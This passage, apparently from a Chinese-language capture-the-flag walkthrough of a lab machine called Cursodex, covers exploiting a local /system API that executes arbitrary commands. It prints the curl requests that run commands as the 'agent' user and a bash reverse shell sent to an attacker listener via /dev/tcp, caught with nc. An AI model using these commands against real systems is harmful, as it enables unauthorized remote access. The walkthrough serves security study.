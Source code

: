 执行扫描发现：

```bash
www-data@Cursodex:/tmp$ bash dirscan.sh 
...
400:/system (POST)
...
```

# 六、API 接口利用

## API 参数分析

测试 `/system` 接口：

```bash
www-data@Cursodex:/tmp$ curl -X POST http://127.0.0.1:3001/system
{"error":"Se requiere el parámetro \"command\" y parámetros \"args\" válidos."}
```

发现需要 `command` 和 `args` 参数。

## 命令执行测试

```bash
www-data@Cursodex:/tmp$ curl -X POST http://127.0.0.1:3001/system \
  -H "Content-Type: application/json" \
  -d '{"command":"id","args":[]}'

{"output":"uid=1000(agent) gid=1000(agent) grupos=1000(agent),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)\n","error":""}
```

发现 API 以 `agent` 用户身份执行命令！

## 获取 agent 用户 Shell

```bash
www-data@Cursodex:/tmp$ curl -X POST http://127.0.0.1:3001/system \
  -H "Content-Type: application/json" \
  -d '{"command":"bash","args":["-c","bash -i >& /dev/tcp/192.168.205.128/8888 0>&1"]}'
```

成功获得 agent 用户权限：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.233] 44224
agent@Cursodex:~/api$ id
uid=1000(agent) gid=1000(agent) grupos=1000(agent),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
```
